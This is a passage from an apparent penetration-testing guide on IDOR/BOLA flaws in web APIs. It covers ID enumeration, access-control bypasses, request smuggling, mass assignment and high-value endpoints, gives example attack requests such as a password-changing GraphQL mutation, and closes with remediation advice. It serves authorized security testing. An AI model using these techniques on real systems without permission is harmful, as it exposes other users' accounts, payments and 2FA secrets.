        print(f"Found accessible document: {id}")
        # Log response for later analysis
```

2. **Parallel Testing with Burp**:
   - Use number payloads for sequential IDs (test large ranges, e.g., 100-1000+).
   - Use custom word lists for GUIDs/UUIDs from observed patterns
   - Set up Grep Match rules to identify successful access

3. **Pattern Recognition**:
   - Analyze response patterns for common IDOR signatures
   - Look for repeated or predictable access patterns

### ID Obfuscation Bypass

- **Hashed IDs**: Collect legitimate hashed IDs and map to users
- **Encoded IDs**: Decode base64/hex encodings and modify values
  ```
  /api/document/MjQ2 (base64 of "246") → /api/document/MjQ3 (base64 of "247")
  ```
- **Encrypted IDs**: Identify encryption patterns and test related IDs

### Access Control Bypass

- **HTTP Method Switching**: Change GET to POST or PUT
  ```
  GET /api/users/123 → POST /api/users/123
  ```
- **Content-Type Manipulation**: Modify content-type headers
  ```
  Content-Type: application/json → Content-Type: application/xml
  ```
- **Parameter Pollution (HTTP)**: Add duplicate parameters with different values. The server might prioritize the first or last occurrence differently.
  ```
  GET /api/document?id=attacker_id&id=victim_id
  GET /api/users?user_id=attacker_id[]&user_id=victim_id[]
  ```
- **Parameter Pollution (JSON)**: Provide duplicate keys in a JSON object. Behavior depends on the parser.
  ```json
  { "user_id": "attacker_id", "user_id": "victim_id" }
  ```
- **Mixed-Case / Path-Normalization Bypass**: Try different capitalizations, mixed-case encodings, dot-segments (../) and URL-encoded slashes (%2F) to bypass path or router checks.
  ```
  GET /admin/profile → GET /ADMIN/profile
  ```
- **Path Traversal Bypass**: Use path traversal sequences within parameters referencing objects.
  ```
  POST /users/delete/MY_ID/../VICTIM_ID
  ```
- **Outdated API Version Testing**: If multiple API versions exist (e.g., /v1/, /v2/), test the IDOR on older, potentially less secure versions.
  ```
  GET /v3/users/123 → 403 Forbidden
  GET /v1/users/123 → 200 OK
  ```

### Request Smuggling for IDOR

- **HTTP Request Smuggling**: Use CL.TE or TE.CL smuggling to inject victim IDs in backend requests

  ```
  POST / HTTP/1.1
  Content-Length: 4
  Transfer-Encoding: chunked

  1
  Z
  Q
  ```

  Front-end strips `user_id` parameter but back-end processes it from smuggled request chunk

### Mass Assignment IDOR

- **Parameter Injection**: Add fields that weren't in original schema
  ```json
  { "name": "John", "role": "admin", "user_id": "victim_id", "is_admin": true }
  ```
- **Case Variation Testing**: Test both camelCase and snake_case variants
  ```
  userId vs user_id vs UserId vs USER_ID
  ```
- **Nested Object Injection**: Add authorization fields in nested objects
  ```json
  {
    "profile": {
      "name": "John",
      "owner_id": "attacker_id",
      "target_id": "victim_id"
    }
  }
  ```

### Reference Leakage Exploitation

- **Harvesting IDs from HTML/JS Sources**:
  - Extract IDs from page source, JavaScript files
  - Analyze AJAX requests for leaked IDs

- **API Response Analysis**:
  - Check list responses for IDs of other users' resources
  - Look for IDs in error messages or debugging information
  - Check for endpoints that might translate identifiers (e.g., email to GUID).
  - Harvest IDs via analytics beacons, logs endpoints, GraphQL error suggestions, or search/autocomplete APIs.

### Common IDOR Vulnerability Patterns



#### API Endpoint Vulnerabilities

- **RESTful API IDORs**: Direct manipulation of resource identifiers in REST APIs

  ```
  GET /api/users/123/profile → GET /api/users/456/profile
  ```

- **GraphQL IDORs**: Changing object identifiers in GraphQL queries

  ```graphql
  query {
    user(id: "attacker_id") {
      changePassword(newPassword: "pwned")
    }
  }
  ```

- **JSON/XML Parameter IDORs**: Modifying nested parameters
  ```json
  {"user": {"id": 123, "action": "view"}} → {"user": {"id": 456, "action": "view"}}
  ```

#### Function-Specific Vulnerabilities

- **Account Management IDORs**:
  - Accessing another user's profile, settings, or personal information
  - Modifying another user's account details

- **Financial IDORs**:
  - Accessing another user's payment methods or financial records
  - Modifying order details, prices, or payment information

- **Content Management IDORs**:
  - Accessing private documents, media, or posts
  - Modifying content ownership or permissions

- **Administrative Function IDORs**:
  - Accessing administrative interfaces or functions
  - Executing privileged actions through API endpoints

- **OAuth/OIDC IDORs**:
  - Manipulating `state` or `code` parameters in OAuth flows
  - Accessing token endpoints with other users' authorization codes
  - PKCE code_verifier bypass via IDOR

- **2FA/MFA IDORs**:
  - Accessing backup code generation endpoints for other users
  - Retrieving TOTP secrets via `/api/users/{user_id}/totp-secret`
  - Disabling 2FA for other accounts

- **Notification/Webhook IDORs**:
  - Modifying notification preferences: `/api/notifications/settings/{user_id}`
  - Accessing webhook configuration endpoints for other tenants
  - Reading notification history of other users

- **Real-time Feature IDORs**:
  - Socket.io/WebSocket room IDs as direct object references
  - Live chat room access via predictable room identifiers
  - Real-time dashboard data streams with user/org IDs

### GraphQL

- Enforce authorization per-field, not just at the root resolver; test aliasing, fragments, batched and persisted queries.
- Restrict or gate introspection in production; sanitize error messages. Fuzz `__typename` switches to reach sibling object types.
- Swap out `id` arguments and nested object IDs in mutations and batch queries; verify per‑object ownership checks.

### gRPC / Protobuf

- Microservices increasingly use gRPC; IDs live in binary messages. Test with grpcurl and fuzzers; validate authorization on every method.
- If server reflection is enabled, fetch `.proto` definitions; disable reflection in production when possible.

### Cloud-Native Object URLs

- Presigned URLs (S3/GCS/Azure) are direct object references; require short expiries, method scoping, optional IP constraints, and backend re‑validation on GET.
- Attempt to tweak the `Key=`/object path, query params, or credentials (e.g., `X-Amz-Security-Token`) to replay others’ files; test cross‑tenant reuse.

### Observability / OpenTelemetry Leaks

- Trace systems like Zipkin or Jaeger often expose span attributes containing user IDs.
- Query endpoints such as `/api/v2/traces` or `/v1/traces`, harvest IDs, and replay them against protected APIs.

## Authorization-as-Code Pitfalls (OPA, Cedar)

- Organizations delegate authorization to policy engines (OPA, Cedar). Fuzz policy inputs directly (e.g., `POST /v1/data/authz/allow`).
- Verify explicit owner/tenant checks in Rego/Cedar; add unit tests for BOLA cases; deny‑by‑default at the first hop.

## Modern Detection & CI/CD Tooling

- Use Burp (Repeater/Intruder/Turbo Intruder) and auth‑diff extensions (e.g., Autorize/AuthMatrix) for parallel testing across roles.
- Use gRPC tooling (grpcurl, gRPC Inspector) and disable reflection in production where possible.
- CI tools that generate BOLA/IDOR cases (e.g., Pynt, StackHawk, RESTler) and block merges on failures.

#### Automated IDOR Detection Tools

- **Burp Suite Extensions**:
  - Authorize: Comparing responses between users
  - Authz: Automated access control testing
  - Auto Repeater: Replaying requests with modifications
  - IDOR Scanner: Dedicated IDOR detection extension
  - Pynt: CLI / CI scanner that auto-generates BOLA/IDOR test cases.
  - StackHawk: CI-native scanner; its BOLA module blocks merges on failing IDOR checks.

- **Specialized Tools**:
  - Arjun / Parameth: Useful for discovering hidden parameters often relevant in IDOR testing.
  - AuthMatrix: Testing authorization in web applications
  - Astra: Automated Security Testing for REST APIs
  - IIS-Shortname-Scanner: Testing for path disclosure

- **Framework-Specific Tools**:
  - RESTler: Stateful REST API fuzzing
  - GraphQLmap: Testing GraphQL endpoints for IDORs
  - Kiterunner: API endpoint discovery, finds hidden IDOR-prone endpoints

#### Manual Testing Tools

- **Proxy Tools**: Burp Suite, OWASP ZAP
- **API Testing**: Postman, Insomnia
- **Custom Scripts**: Python with requests library

#### Comprehensive IDOR Testing Process

1. **Reconnaissance Phase**:
   - Map all endpoints and functionality
   - Identify authentication mechanisms
   - Document all object references and formats

2. **Identification Phase**:
   - Set up multiple accounts at different privilege levels
   - Capture all interactions with the application
   - Catalog all potential IDOR test points

3. **Testing Phase**:
   - Perform parameter tampering across all identified points
   - Test for both read and write IDOR
   - Try multiple bypass techniques for each endpoint
   - Test indirect references (e.g., file uploads, exports)

4. **Exploitation Phase**:
   - Develop reliable proof-of-concept exploits
   - Assess the impact of discovered vulnerabilities
   - Determine the scope and severity

5. **Reporting Phase**:
   - Document clear reproduction steps
   - Demonstrate actual/potential business impact
   - Provide remediation recommendations

#### Account Management Testing

1. Log in as User A and access profile settings
2. Capture requests for viewing/editing profile
3. Log in as User B
4. Replay User A's requests with User B's session
5. Modify identifiers to access/edit User A's profile

#### Document Access Testing

1. Upload documents with User A
2. Capture document access/download requests
3. Log in as User B
4. Modify document identifiers to access User A's documents
5. Test both direct access and list/search interfaces

#### API Testing

1. Map all API endpoints and their parameters
2. Identify endpoints that accept object identifiers
3. Test horizontal access (between equal privilege users)
4. Test vertical access (between different privilege levels)
5. Test indirect references (nested objects, relationships)
6. Check corresponding mobile API endpoints for differences or leaks.
7. Look for parallel administrative endpoints (e.g., `/api/users/myinfo` vs `/api/admins/myinfo`).

### High-Impact IDOR Targets

When hunting for IDORs, prioritize these high-impact endpoints:

1. **User Profile Settings**:
   - /settings/profile
   - /user/profile
   - /user/settings
   - /account/settings
   - /username
   - /profile

2. **Payment and Financial Endpoints**:
   - Test create/update/delete operations on objects that might seem read-only (e.g., changing prices via PUT requests).
   - Any endpoint handling payment information
   - Order processing systems
   - Financial record access points

3. **Administrative Functions**:
   - User management interfaces
   - System configuration endpoints
   - Access control settings

4. **Authentication & MFA Endpoints**:
   - /api/users/{id}/backup-codes
   - /api/users/{id}/totp
   - /api/users/{id}/disable-2fa
   - /oauth/authorize (state parameter)
   - /api/users/{id}/sessions

5. **Notification & Communication**:
   - /api/notifications/{id}
   - /api/webhooks/{id}/config
   - /api/users/{id}/email-preferences
   - /api/alerts/{id}/settings

6. **Real-Time & Collaboration**:
   - /socket.io/?room={id}
   - /api/rooms/{id}/join
   - /api/live-sessions/{id}
   - /api/collaborative-docs/{id}

## Chaining and Escalation

IDOR vulnerabilities can often be chained with other issues or used to escalate privileges:

- **IDOR + Information Disclosure**: If an IDOR requires an unpredictable identifier (like a UUID), find another vulnerability (e.g., an API endpoint listing users) that leaks these identifiers. Use the leaked IDs to exploit the IDOR.
- **IDOR + Stored XSS**: If an IDOR allows modification of data viewable by other users (e.g., changing a profile name, posting a comment), inject an XSS payload. This escalates the IDOR to Stored XSS affecting other users.
- **IDOR for Feature Abuse**: Use IDOR to abuse application features, such as adding items to another user's cart, triggering actions on their behalf, or exhausting resources tied to their account.

## Remediation Recommendations

- **Implement Proper Authorization**: Validate access rights for every resource request
- **Use Indirect References**: Replace direct references with temporary per-session tokens
- **Server-Side Validation**: Validate that the requested object belongs to the current user
- **Contextual Access Controls**: Consider context beyond just resource ownership
- **Authorization Frameworks**: Use dedicated authorization frameworks like ABAC, RBAC
- **Least Privilege Principle**: Restrict access to the minimum necessary
- **Rate Limiting**: Implement rate limiting to prevent brute-force IDOR discovery
- **Activity Logging**: Log all access attempts for sensitive resources
- **Session Binding**: Explicitly bind resources to authenticated sessions
- **Input Validation**: Validate all input parameters for type, format, and range
- **Deny-by-Default**: Authorize on object owner and tenant at the very first layer; fail closed.
- **Unit/Contract Tests**: Add authorization unit tests per endpoint/field and CI scanners that auto-generate BOLA cases.
- **Cache Partitioning**: Partition CDN caches by auth headers; avoid cacheable 200/304 for private resources.
